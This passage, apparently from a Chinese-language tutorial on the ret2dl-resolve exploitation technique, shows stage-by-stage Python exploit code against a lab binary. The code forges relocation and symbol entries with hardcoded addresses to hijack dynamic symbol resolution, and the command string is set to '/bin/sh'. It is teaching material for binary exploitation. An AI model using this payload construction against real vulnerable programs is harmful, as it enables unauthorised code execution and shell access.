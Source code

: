 ```
buf2 += 'B' * align
buf2 += fake_sym 
buf2 += 'A' * (80-len(buf2))
buf2 += cmd + '\x00'
buf2 += 'A' * (100-len(buf2))
io.writeline(buf2)
io.interact()

```

同样会把我们输入的`cmd`打印出来

![Alt text](http://drops.javaweb.org/uploads/images/3ae7bbcb2cd6ef1dcefdfd7daeabe175f3beb9e9.jpg)

**stage5**

这次把`st_name`指向我们伪造的字符串`write`

```
...
cmd = "/bin/sh"
addr_plt_start = 0x8048370 # objdump -d -j.plt bof
addr_rel_plt   = 0x8048318 # objdump -s -j.rel.plt a.out
index_offset   = (base_stage + 28) - addr_rel_plt
addr_got_write = 0x804a020
addr_dynsym    = 0x080481d8
addr_dynstr    = 0x08048268
addr_fake_sym  = base_stage + 36
align          = 0x10 - ((addr_fake_sym - addr_dynsym) & 0xf)
addr_fake_sym  = addr_fake_sym + align
index_dynsym   = (addr_fake_sym - addr_dynsym) / 0x10
r_info         = (index_dynsym << 8 ) | 0x7
fake_reloc     = l32(addr_got_write) + l32(r_info)
st_name        = (addr_fake_sym + 16) - addr_dynstr
fake_sym       = l32(st_name) + l32(0) + l32(0) + l32(0x12)

buf2 = 'AAAA'
buf2 += l32(addr_plt_start)
buf2 += l32(index_offset)
buf2 += 'AAAA'
buf2 += l32(1)
buf2 += l32(base_stage+80)
buf2 += l32(len(cmd))
buf2 += fake_reloc
buf2 += 'B' * align
buf2 += fake_sym
buf2 += "write\x00"
buf2 += 'A' * (80-len(buf2))
buf2 += cmd + '\x00'
buf2 += 'A' * (100-len(buf2))
io.writeline(buf2)
io.interact()

```
